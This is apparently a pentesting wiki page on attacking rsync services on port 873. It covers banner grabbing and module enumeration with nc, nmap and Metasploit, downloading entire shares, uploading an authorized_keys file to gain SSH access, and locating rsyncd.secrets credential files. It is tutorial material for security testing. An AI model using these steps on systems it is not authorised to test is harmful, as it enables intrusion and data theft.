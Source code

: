 # 873 - Pentesting Rsync

## **Basic Information**

> **rsync** is a utility for efficiently [transferring](https://en.wikipedia.org/wiki/File_transfer) and [synchronizing](https://en.wikipedia.org/wiki/File_synchronization) [files](https://en.wikipedia.org/wiki/Computer_file) between a computer and an external hard drive and across [networked](https://en.wikipedia.org/wiki/Computer_network) [computers](https://en.wikipedia.org/wiki/Computer) by comparing the [modification times](https://en.wikipedia.org/wiki/Timestamping_\(computing\))and sizes of files.[\[3\]](https://en.wikipedia.org/wiki/Rsync#cite_note-man_page-3) It is commonly found on [Unix-like](https://en.wikipedia.org/wiki/Unix-like) [operating systems](https://en.wikipedia.org/wiki/Operating_system). The rsync algorithm is a type of [delta encoding](https://en.wikipedia.org/wiki/Delta_encoding), and is used for minimizing network usage. [Zlib](https://en.wikipedia.org/wiki/Zlib) may be used for additional [data compression](https://en.wikipedia.org/wiki/Data_compression),[\[3\]](https://en.wikipedia.org/wiki/Rsync#cite_note-man_page-3) and [SSH](https://en.wikipedia.org/wiki/Secure_Shell) or [stunnel](https://en.wikipedia.org/wiki/Stunnel) can be used for security.

From [wikipedia](https://en.wikipedia.org/wiki/Rsync).

**Default port:** 873

```
PORT    STATE SERVICE REASON
873/tcp open  rsync   syn-ack
```

## Enumeration

### Banner & Manual communication

```
nc -vn 127.0.0.1 873
(UNKNOWN) [127.0.0.1] 873 (rsync) open
@RSYNCD: 31.0        <--- You receive this banner with the version from the server
@RSYNCD: 31.0        <--- Then you send the same info
#list                <--- Then you ask the sever to list
raidroot             <--- The server starts enumerating
USBCopy            
NAS_Public         
_NAS_Recycle_TOSRAID    <--- Enumeration finished
@RSYNCD: EXIT         <--- Sever closes the connection


#Now lets try to enumerate "raidroot"
nc -vn 127.0.0.1 873
(UNKNOWN) [127.0.0.1] 873 (rsync) open
@RSYNCD: 31.0
@RSYNCD: 31.0
raidroot
@RSYNCD: AUTHREQD 7H6CqsHCPG06kRiFkKwD8g    <--- This means you need the password
```

### **Enumerate shared folders**

**An rsync module is essentially a directory share**. These modules **can optionally be protected by a password**. This options lists the available modules and, optionally, determines if the module requires a password to access**:**

```bash
nmap -sV --script "rsync-list-modules" -p <PORT> <IP>
msf> use auxiliary/scanner/rsync/modules_list

#Example using IPv6 and a different port
rsync -av --list-only rsync://[dead:beef::250:56ff:feb9:e90a]:8730
```

Notice that it could be configured a shared name to not be listed. So there could be something **hidden**.\
Notice that it may be some **shared names** being listed where you need some (different) **credentials **to access. So, not always all the listed names are going to be accessible and you will notice it if you receive an _**"Access Denied"**_ message when trying to access some of those.

### ****[**Brute force**](../brute-force.md#rsync)

### Manual Rsync

Once you have the **list of modules** you have a few different options depending on the actions you want to take and whether or not authentication is required. **If authentication is not required **you can **list **a shared folder:

```bash
rsync -av --list-only rsync://192.168.0.123/shared_name
```

And **copy **all **files **to your local machine via the following command:

```bash
rsync -av rsync://192.168.0.123:8730/shared_name ./rsyn_shared
```

This **recursively transfers all files from the directory** `<shared_name>` on the machine `<IP>`into the `./rsync_shared` directory on the local machine. The files are transferred in "archive" mode, which ensures that symbolic links, devices, attributes, permissions, ownerships, etc. are preserved in the transfer.

If you **have credentials **you can **list/download** a **shared name **using (the password will be prompted):

```bash
rsync -av --list-only rsync://username@192.168.0.123/shared_name
rsync -av rsync://username@192.168.0.123:8730/shared_name ./rsyn_shared
```

You could also **upload **some **content **using rsync (for example, in this case we can upload an _**authorized_keys **_file to obtain access to the box):

```bash
rsync -av home_user/.ssh/ rsync://username@192.168.0.123/home_user/.ssh
```

## POST

Find the rsyncd configuration file:

```bash
find /etc \( -name rsyncd.conf -o -name rsyncd.secrets \)
```

Inside the config file sometimes you could find the parameter _secrets file = /path/to/file_ and this file could contains usernames and passwords allowed to authenticate to rsyncd.
